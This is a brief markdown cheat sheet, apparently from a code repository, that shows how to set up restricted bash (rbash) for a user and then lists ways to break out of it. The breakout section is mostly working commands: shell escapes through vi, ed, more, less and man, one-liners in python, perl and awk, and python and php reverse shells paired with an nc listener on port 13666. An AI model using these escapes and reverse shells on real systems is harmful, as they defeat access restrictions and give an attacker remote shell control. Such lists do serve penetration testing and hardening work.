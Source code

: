 # rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"

#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

### reverse shell

    # listen
    nc -lvp 13666

#### python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### php

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

### system binaries

#### more

    more long-file.txt
    !sh

#### less

    less file.txt
    !sh

#### man

    man man
    !sh
